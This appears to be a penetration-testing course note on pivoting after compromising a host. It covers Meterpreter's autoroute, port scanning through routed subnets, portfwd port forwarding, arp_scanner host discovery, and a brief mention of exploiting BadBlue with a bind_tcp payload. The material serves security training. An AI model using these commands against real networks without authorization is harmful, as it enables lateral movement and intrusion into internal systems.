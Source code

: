 # 12 - Pivoting

## Pivoting

* Pivoting is a post exploitation technique that involves utilizing a compromised host that is connected to multiple networks to gain access to systems within other networks.
* After gaining access to one host, we can use the compromised host to exploit other hosts on a private internal network to which we could not access previously.
* Meterpreter provides us with the ability to add a network route to the internal network's subnet, perform port forwarding and consequently scan and exploit other systems on the network.

## **Port Forwarding**

* Port forwarding is the process of redirecting traffic from a specific port on a target system to a specific port on our system.
* In the context of pivoting, we can forward a remote port on a previously inaccessible host to a local port on our Kali Linux system so that we can remotely interact/exploit the service running on the port.

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
meterpreter > run autoroute -s <subnet> #Add a route to a subnet
meterpreter > run autoroute -p #Display the active routing table.

msf6 > use auxiliary/scanner/portscan/tcp #When targeting a system part of a subnet that we route with meterpreter, we need to use an MSF module to scan it. set PHOSTS $ip_victim2IP, set RPORTS 1-100 to scan 100 ports.

meterpreter > portfwd add -l <localPort> -p <remotePort> -r <targetIP> #Port forward a remote port on the target system to a local port on our local system.
# We can then scan/exploit the remote port through the local specified port without using MSF.

# With MSF --> Use target IP.
# we use the BadBlue vuln, set payload windows/meterpreter/bind_tcp, run, we get a meterpreter session.

# Withtout MSF --> Use forwarded port on localhost.
```
{% endcode %}

## Scanning for Other Hosts after adding the subnet

{% code overflow="wrap" lineNumbers="true" %}
```bash
# Now we have added a subnet, for example 192.168.0.1/24
# From the meterpreter sessiokn, we can scan for all hosts up in this subnet, using the  "Arp_scanner"
meterpreter > run arp_scanner -r 192.168.0.1/24 # scans entire subnet for up hosts.
background # background the session.
msf> route print # to view all added routes.
```
{% endcode %}

